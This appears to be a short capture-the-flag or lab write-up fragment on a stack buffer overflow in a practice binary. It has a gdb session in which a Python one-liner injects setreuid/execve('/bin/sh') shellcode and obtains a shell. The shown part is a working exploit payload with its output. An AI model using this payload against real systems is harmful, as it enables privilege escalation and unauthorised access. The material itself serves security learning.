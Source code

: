 Success!

:::danger beware

shellcode for `setreuid` apparently doesn't work inside gdb/r2, you must deliver the payload directly to the binary, outside of a debugger.

:::

```sh
(gdb) run $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
new word is doggo1fjqXHj;XH1I//bin/shAPHRWHj<XH1BBBBBBBBBBBB
process 3400 is executing new program: /usr/bin/bash
sh-4.2$ id
Detaching after fork from child process 3406.
uid=1001(user1) gid=1001(user1) groups=1001(user1)
sh-4.2$ 
```
